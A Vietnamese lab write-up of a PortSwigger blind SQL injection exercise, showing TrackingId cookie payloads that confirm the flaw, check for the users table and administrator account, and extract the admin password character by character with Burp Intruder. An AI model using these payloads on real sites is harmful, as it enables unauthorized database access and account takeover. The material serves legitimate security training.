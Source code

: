 # Write-up: Blind SQL injection with conditional responses

### Tổng quan
Ghi lại quá trình khai thác Blind SQLi để lấy mật khẩu của tài khoản `administrator` bằng cách kiểm tra phản hồi của web trong `Cookie TrackingId`.

### Mục tiêu
- Tìm mật khẩu của tài khoản `administrator`
- Đăng nhập thành công với vai trò `administrator`

### Công cụ sử dụng
- BurpSuite Community
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Recon)**
- Kiểm tra tham số `TrackingId` trong header `Cookie`
    ```
    TrackingId=kW0NAXq4I0XbQKuN' AND 1=1--
    ```
    - **Kết quả**: `Welcome back!` xuất hiện
    ![tồn tại](./images/exist.png)
    ```
    TrackingId=kW0NAXq4I0XbQKuN' AND 1=0--
    ```
    - **Kết quả**: `Welcome back!` không xuất hiện
    ![no exist](./images/no_exist.png)

    - **Kết quả**: xác nhận lỗ hổng Blind SQLi.

- Xác định sự tồn tại của bảng users và
    ```
    TrackingId=kW0NAXq4I0XbQKuN' AND (SELECT 'm' FROM users LIMIT 1)='m'-- 
    ```
    - **Kết quả**: `Welcome back!` xuất hiện, tồn tại bảng users
        ![users](./images/exist_users.png)

-  Xác định sự tồn tại của người dùng tên `administrator`
    ```
    TrackingId=kW0NAXq4I0XbQKuN' AND (SELECT username FROM users WHERE username='administrator')='administrator'--
    ```
    - **Kết quả**: `Welcome back!` xuất hiện, tồn tại `username` = `administrator`

2. **Tạo payload**
- Tạo payload và gửi qua Burp Intruder, xử dụng kỹ thuật bruteforce xác định độ dài mật khẩu
    ```
    TrackingId=kW0NAXq4I0XbQKuN' AND (SELECT LENGTH(password) FROM users WHERE username='administrator')=§1§--
    ```
    - set payload như ảnh sau và được kết quả
      ![payload](./images/length.png)
    Xác nhận mật khẩu có độ dài là 20 kí tự

- Tạo payload và gửi qua Burp Intruder, xử dụn kĩ thuật bruteforce để xác định mật khẩu
    ```
    TrackingId=kW0NAXq4I0XbQKuN' AND (SELECT SUBSTRING(password,§1§,1) FROM users WHERE username='administrator')='§a§'--
    ```
    - payload `§1§` set giống với pyaload xác định độ dài mật khẩu
    - payload `§a§` set như ảnh dưới và ta được kết quả
    ![payload](./images/bf_password.png)
    - **Kết quả**: xác định được `password`:`0gd912zq4tck66kjrddm`
  
3. **Khai thác (Exploitation)**
- Đăng nhập tại `/login` với `administrator`:`0gd912zq4tck66kjrddm`
- **Kết quả**: Đăng nhập thành công, hoàn thành lab
    ![login](./images/login_success.png)

### Bài học rút ra
- Thành thạo khai thác blind SQL injection dựa trên phản hồi có điều kiện.
- Nhận thức tầm quan trọng của kiểm tra đầu vào để ngăn chặn SQL injection.

### Tài liệu tham khảo
- PortSwigger: SQL Injection cheat sheet
- PortSwigger: Blind SQL Injection

### Kết luận
Lab này giúp tôi hoàn thiện kỹ năng khai thác Blind SQL injection. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger 

*Viết bởi Toàn Lương, Tháng 5/2025*.